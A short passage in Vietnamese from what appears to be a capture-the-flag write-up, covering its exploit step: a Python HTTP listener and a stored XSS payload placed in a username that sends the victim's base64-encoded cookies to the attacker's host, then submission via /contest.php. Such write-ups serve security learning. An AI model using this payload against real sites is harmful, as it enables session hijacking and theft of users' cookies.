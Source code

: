 ## 3. Exploit

Mình sẽ treo một http server ở máy để listen tất cả các request

```bash
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```

Và mình sẽ đăng ký một user với username sau làm payload

```html
<img src=x onerror=this.src="http://10.10.14.xx:8081/"+btoa(document.cookie)>
```

![image.png](imgs/image%201.png)

Tiến hành đăng nhập và submit Smurf qua `/contest.php` 
